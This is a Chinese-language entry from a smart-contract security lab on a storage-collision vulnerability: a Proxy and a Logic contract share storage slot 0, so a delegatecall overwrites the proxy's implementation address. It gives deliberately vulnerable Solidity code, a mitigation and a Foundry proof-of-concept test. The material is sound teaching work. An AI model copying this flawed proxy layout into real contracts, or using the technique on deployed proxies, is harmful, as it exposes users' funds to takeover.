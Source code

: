 # 存储碰撞  
[Storage-collision.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Storage-collision.sol)  
**名称：** 存储碰撞漏洞

**描述：**  
这个漏洞是由于Proxy合约和Logic合约都使用相同的存储槽（槽0）来存储重要变量，  
即Proxy合约中的implementation变量地址和Logic合约中的GuestAddress变量地址。  
由于Proxy合约使用delegatecall方法与Logic合约进行交互，  
他们共享相同的存储空间。如果调用foo函数，
它会覆盖Proxy合约中的implementation变量地址，从而导致意外行为。  

**缓解措施：**   
缓解此问题的一种方法是设计proxy和logic合约的存储布局保持一致。  

**参考：**  
https://blog.openzeppelin.com/proxy-patterns  

**Proxy合约：**  
```
contract Proxy {
    address public implementation; //slot0

    constructor(address _implementation) {
        implementation = _implementation;
    }

    function testcollision() public {
        bool success;
        (success, ) = implementation.delegatecall(
            abi.encodeWithSignature("foo(address)", address(this))
        );
    }
}

contract Logic {
    address public GuestAddress; //slot0

    constructor() {
        GuestAddress = address(0x0);
    }

    function foo(address _addr) public {
        GuestAddress = _addr;
    }
}
```
**如何测试：**  
forge test --contracts src/test/Storage-collision.sol-vvvv  
```
// 用于测试存储碰撞漏洞的函数。
function testStorageCollision() public {
    // 创建LogicContract合约的实例。
    LogicContract = new Logic();

    // 创建Proxy的新实例，并将LogicContract的地址传递给其构造函数。
    ProxyContract = new Proxy(address(LogicContract));

    // 记录当前实现合约（LogicContract）的地址。
    console.log(
        "Current implementation contract address:",
        ProxyContract.implementation()
    );

   
    //调用 ProxyContract 的 testcollision() 函数。这个函数可能会改变用于存储 LogicContract 地址的存储槽。
    ProxyContract.testcollision();

    // 记录被覆写的实现合约地址。
    console.log(
        "Overwritten slot0 implementation contract address:",
        ProxyContract.implementation()
    );

    // 记录“攻击完成”。
    console.log("Exploit completed");
}
```
**红框：** 覆盖插槽0。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc2707314-2098-477d-a55e-b5beb4301636%2FUntitled.png?table=block&id=32bfcdcc-533a-44a6-bc11-2f873408fffa&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
